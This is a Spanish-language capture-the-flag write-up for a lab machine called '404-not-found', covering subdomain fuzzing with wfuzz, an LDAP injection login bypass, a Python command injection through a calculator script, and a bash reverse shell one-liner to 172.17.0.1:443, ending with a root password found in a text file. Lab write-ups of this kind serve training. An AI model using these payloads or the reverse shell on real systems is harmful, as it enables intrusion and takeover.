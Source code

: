 nmap: 22,80

![image](https://github.com/user-attachments/assets/2b6eed0f-c4b9-4bcb-b84d-3fbfe9437982)


---
al hacer el nmap vemos que el puerto 80 tiene una pagina con "hl" al final

![image](https://github.com/user-attachments/assets/00fb62a3-401f-40ce-a6c6-046641820ccd)

lo que tenemos que agregar esa redirección en el  "/etc/hosts"
http://404-not-found.hl/

en la pagina principal ahora vemos eso y aceptamos el desafio:

![image](https://github.com/user-attachments/assets/ca2f05b7-9e39-4c8b-b1c6-ab6cef4f2fd4)


en la pagina hay cuadros con "pistas". hay una en código base64 

![image](https://github.com/user-attachments/assets/21c6bc7f-4b39-4991-b972-2e4f1fbf9b75)


que lo sacamos:
>echo "`UXVlIGhhY2VzPywgbWlyYSBlbiBsYSBVUkwu`" | base64 -d 

![image](https://github.com/user-attachments/assets/6ec0aa26-5305-4c98-8661-c514c470e5e8)


y nos da: Que haces?, mira en la URL. 

hacemos un:


    - wfuzz -c -u 404-not-found.hl -H "HOST: FUZZ.404-not-found.hl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 28

nos da: info

![image](https://github.com/user-attachments/assets/e26da39b-a5fd-47dd-8b60-3489ca23bc2a)


metemos ese info en /etc/host como el primer URL que tenemos.
http://info.404-not-found.hl/
quedaría: info.404-not-found.hl

![image](https://github.com/user-attachments/assets/326bd27a-8218-48a8-8afe-9fff9203851d)


nos manda a un login y vamos probando credenciales por default. 
vemos el código fuente y al final hay un mensaje:
> I believe this login works with LDAP
> 
![image](https://github.com/user-attachments/assets/d2ed5af5-49d9-4b99-b3b5-c9694372c261)


buscamos credenciales de inyección de LDAP
probamos las inyección que tiene: https://book.hacktricks.xyz/v/es/pentesting-web/ldap-injection

![image](https://github.com/user-attachments/assets/7a5b62ab-8c46-4f74-bdb1-59d1f49849b7)

y sirve: 

        user=*)(|(&
         pass=pwd)

en el panel de admin nos da las credenciales: 

       - Nombre de usuario: `404-page`
       - Contraseña: `not-found-page-secret`

![[credenciales 2.png]]

entramos por el ssh en el terminal y ahora buscamos como escalar hacia root.
![[conexion .png]]

como se ve hay un calculadora.py se refiere a python y solo podemos ejecutar.

![[ejecutable 1.png]]

encontramos un comando para ejecutar con python del programa que encontramos:
https://snyk.io/blog/command-injection-python-prevention-examples/

![[codigo python 1.png]]

comando de ejecución:

     __import__('os').popen('ls').read()

![[prueba 1 1.png]]

lo modificamos para una reverse shell para verificar: 

         __import__('os').popen("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'").read()

olocamos el puerto en escucha y estamos dentro del usuario 200-ok

![[conexion nc.png]]

 buscamos como escalar y aparece un txt que se llama: 
>boss.txt que contiene: what is rooteable

![[boss.png]]

probamos rooteable como contraseña de root:

![[root.png]]

su root / rooteable y somos root!: 
